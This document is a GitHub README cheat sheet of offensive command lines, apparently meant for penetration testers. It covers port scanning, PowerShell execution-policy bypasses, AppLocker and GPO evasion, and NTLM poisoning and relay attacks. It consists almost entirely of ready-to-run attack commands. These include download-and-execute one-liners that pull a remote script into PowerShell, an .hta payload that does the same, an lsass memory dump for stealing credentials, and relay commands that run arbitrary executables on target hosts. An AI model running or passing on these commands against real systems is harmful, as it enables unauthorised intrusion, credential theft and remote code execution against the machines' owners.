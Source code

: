 [PORTSCAN](https://github.com/gbalaji7/QuickCommands/edit/main/README.md#portscan)
[Powershell-execution-bypass-techniques]https://github.com/gbalaji7/QuickCommands/edit/main/README.md#powershell-execution-bypass-techniques
[GPO Applocker Bypass]https://github.com/gbalaji7/QuickCommands/edit/main/README.md#bypass-gpo-and-applocker-to-execute-powershell
[Poisoning-attack]https://github.com/gbalaji7/QuickCommands/edit/main/README.md#poisoning-attack

## Portscan
#### Nmap Few
```
nmap -sS -Pn -p 22,25,80,443,139,445,3306,1433,5432,1521,27001,8080,8000,8088,8443,5900,1099 --open -vvvv -iL <file> -oA nmap_few
```
#### Nmap 1k
```
nmap -sS -Pn --open -vvvv -iL <file> -oA nmap_1k
```
#### Masscan + nmap version Full
```
masscan -p 1-65535 --rate 10000 --wait 0 --open -iL ip.txt -oX masscan.xml
```
```
open_ports=$(cat masscan.xml | grep portid | cut -d "\"" -f 10 | sort -n | uniq | paste -sd,)
```
```
nmap -sS -Pn -A -sV -p $open_ports --open -vvvv -n -iL ip.txt -oA nmapfull
```
#### Naabu
```
naabu -list <ip.txt> -rate 5000 -nmap-cli 'nmap -sV -oA naabu_nmap'
```

## PowerShell Execution Bypass Techniques

#### Netspi blog - https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
```
powershell.exe -ExecutionPolicy Bypass
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1
Echo Write-Host "My voice is my passport, verify me." | PowerShell.exe -noprofile -
powershell.exe -Enc VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA

Set-ExecutionPolicy Bypass -Scope Process
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
Get-Content .runme.ps1 | Invoke-Expression
GC .runme.ps1 | iex
TYPE .runme.ps1 | PowerShell.exe -noprofile -
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.0.1/exploit.ps1')"
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
Powershell -c "Write-Host 'My voice is my passport, verify me.'"
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
invoke-command -computername Server01 -scriptblock {get-executionpolicy} | set-executionpolicy -force
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  .runme.ps1

```

## Bypass GPO and Applocker to execute Powershell

#### Powershx
```
https://github.com/iomoath/PowerShx
```

#### MSBuildshell
Download
```
https://github.com/Cn33liz/MSBuildShell/blob/master/MSBuildShell.csproj
```
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
Or
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
#### CScriptShell
```
https://github.com/Cn33liz/CScriptShell
```
#### Powershdll
```
https://github.com/p3nt4/PowerShdll
```
#### SyncAppvPublishingServer
```
SyncAppvPublishingServer.vbs "Break; mshta <remote file>"
```
#### Powerline
```
https://github.com/fullmetalcache/PowerLine
```
```
PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"
```
```
PowerLine.exe PowerUp "Invoke-AllChecks"
```
#### List AppLocker Rules - https://blog.pwn.al/security/applocker/bypass/custom/rules/windows/2018/09/13/applocker-custom-rules-bypass.html
```
Import-Module AppLocker
[xml]$data = Get-AppLockerPolicy -effective -xml

# Extracts All Rules and print them.
Write-Output "[+] Printing Applocker Rules [+]`n"
($data.AppLockerPolicy.RuleCollection | ? { $_.EnforcementMode -match "Enabled" }) | ForEach-Object -Process {
    Write-Output ($_.FilePathRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Path Rule ===`n`n Rule Name : $($_.Name) `n Condition : $($_.Conditions.FilePathCondition.Path)`n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FileHashRule) | ForEach-Object -Process { Write-Output "=== File Hash Rule ===`n`n Rule Name : $($_.Name) `n File Name :  $($_.Conditions.FileHashCondition.FileHash.SourceFileName) `n Hash type : $($_.Conditions.FileHashCondition.FileHash.Type) `n Hash :  $($_.Conditions.FileHashCondition.FileHash.Data) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
    Write-Output ($_.FilePublisherRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Publisher Rule ===`n`n Rule Name : $($_.Name) `n PublisherName : $($_.Conditions.FilePublisherCondition.PublisherName) `n ProductName : $($_.Conditions.FilePublisherCondition.ProductName) `n BinaryName : $($_.Conditions.FilePublisherCondition.BinaryName) `n BinaryVersion Min. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.LowSection) `n BinaryVersion Max. : $($_.Conditions.FilePublisherCondition.BinaryVersionRange.HighSection) `n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
}
```
#### .hta payload
```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/')"
</script>
</HEAD> 
<BODY> 
</BODY> 
</HTML>
```
#### Whitelist Invasion - Installutil.py
```
https://github.com/khr0x40sh/WhiteListEvasion
```
#### Cmd.exe dll
```
https://github.com/DidierStevens/DidierStevensSuite/blob/master/cmd.dll
```
#### P0wned shell
```
https://github.com/Cn33liz/p0wnedShell
```
#### Mini Powershell
```
https://github.com/InfosecMatter/Shells-for-restricted-environments
```
## Poisoning Attack

#### Responder
```
responder -I eth0
```
#### IPv6 DHCP Rogue Server 
Install Mitm6
```
pip install mitm6
```

```
mitm6 -i eth0
```

#### Generate SMB Signing Disabled Hosts
```
crackmapexec smb --gen-relay-list smb_sigb_disabled.txt ranges.txt
```
#### Relay Attacks 
ntlmrelayx
```
python3 ntlmrelayx.py -smb2support -tf filename
```
ntlmrelayx Comamnd execution
```
python3 ntlmrelayx.py -smb2support -tf filename -c <msf or koadic listener here>
```
Multirelay
```
python3 MultiRelay.py -t IP -u ALL
```
SMBrelay
```
python3 smbrelayx.py -h IP -c <command>
```
```
python3 smbrelayx.py -h IP -e <executable>
```
